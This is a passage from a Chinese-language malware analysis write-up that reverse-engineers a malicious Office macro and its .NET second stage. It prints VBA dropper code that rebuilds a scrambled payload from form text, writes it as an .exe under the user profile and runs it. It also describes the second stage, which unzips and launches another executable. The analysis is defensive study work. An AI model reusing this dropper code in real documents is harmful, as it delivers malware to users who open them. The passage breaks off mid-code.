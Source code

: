 
            file_othra_name = "hbraeiwas"
            fldr_othra_name = Environ$("USERPROFILE") & "\Glhvadia\"

            If Dir(fldr_othra_name, vbDirectory) = "" Then
                MkDir (fldr_othra_name)
            End If
            path_othra_file = fldr_othra_name & file_othra_name & ".e"
            If InStr(Application.OperatingSystem, "6.02") > 0 Or InStr(Application.OperatingSystem, "6.03") > 0 Then
                ar1othra = Split(UserForm1.TextBox2.Text, "i")
            Else
                ar1othra = Split(UserForm1.TextBox1.Text, "i")
            End If
            Dim btsothra() As Byte
            Dim linothra As Double
            linothra = 0
            For Each vl In ar1othra
                ReDim Preserve btsothra(linothra)
                btsothra(linothra) = CByte(vl)
                linothra = linothra + 1
            Next
            Open path_othra_file & "xe" For Binary Access Write As #3
                 Put #3, , btsothra
            Close #3
             Shell path_othra_file & "xe", vbNormalNoFocus
        End Sub
        ```
        這個script簡單來說就是在做malware payload的extract，原本作者把惡意的payload scramble之後，當victim同意啟動Macro，他會再unscramble，可以看到下圖，他會依照不同的Application Version，選擇要用哪一個scramble payload接著把這些bits轉成bytes後寫到某一個檔案中，並且用shell執行該檔案，以上這些操作都極其詭異，另外他把檔案寫在
        ```vb
        Environ$("USERPROFILE") & "\Glhvadia\hbraeiwas"
        ```
        :::danger
        這一段是錯的，他看的版本是OS的版本號，來決定要用哪一隻Payload，因為這和後面.NET的版很也有關係
        :::
        ![image](https://hackmd.io/_uploads/r1H_RTzp6.png)
        實際去看也的確是在這邊
        ![image](https://hackmd.io/_uploads/H1RAlCza6.png)
    3. Anaylize hbraeiwas.exe
        根據DIE的解析，這是一個用.NET寫的script，我之前碰到.NET的例子不多，唯一有碰過的reverse經驗是來自[臺大計安的welcome題-Nine & Nine-Revenge](https://hackmd.io/@SBK6401/HkIYEw8Kh)
        ![image](https://hackmd.io/_uploads/HkBm8RfTT.png)
        一開始並不知道要先看哪裡，所以看了一些`.NET` reversing的文章，發現可以先從自定義的module開始看，也就是`hbraeiwas`這個class，如下圖
        ![image](https://hackmd.io/_uploads/H1M0HJQpp.png)
        透過copilot的解析可以很方便的看出這個程式的主要功能是解壓縮一個 ZIP 檔案並啟動其中包含的應用程式。這種行為常見於一些惡意軟體中，因為它可以用於自解壓縮並執行惡意程式碼，如果直接用動態debugger，就會更清楚他把東西unzip到哪邊去，他是decompress到`C:\ProgramData\Hdlharas\dlrarhsiva.exe`，並且實際執行
        ![image](https://hackmd.io/_uploads/HkWmWeXTa.png)
        再詳細說明一下，他先instantiate Class1，並且把裡面的內容丟到`dlrarhsiva.exe`，再執行，所以如果不想要分析其他有的沒得東西，可以直接看`Resources\dlrarhsiva7`這個執行檔
        ![image](https://hackmd.io/_uploads/HyMWUxmaa.png)
        :::spoiler
        ```csharp
        public void UnZip()
        {
            try
            {
                string apppath = this.get_apppath();
                Class1 @class = new Class1();
                byte[] wind = @class.getWind();